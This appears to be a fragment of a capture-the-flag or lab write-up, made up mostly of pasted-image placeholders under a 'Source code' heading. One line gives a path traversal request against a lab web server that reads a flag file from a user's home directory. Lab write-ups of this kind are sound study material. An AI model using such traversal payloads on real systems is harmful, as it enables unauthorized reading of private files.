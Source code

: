 
![[Pasted image 20240724074947.png]]

![[Pasted image 20240724075003.png]]

![[Pasted image 20240724075132.png]]

http://10.13.37.11:5000/file?filename=/../../../../home/aas/flag.txt

![[Pasted image 20240724075214.png]]

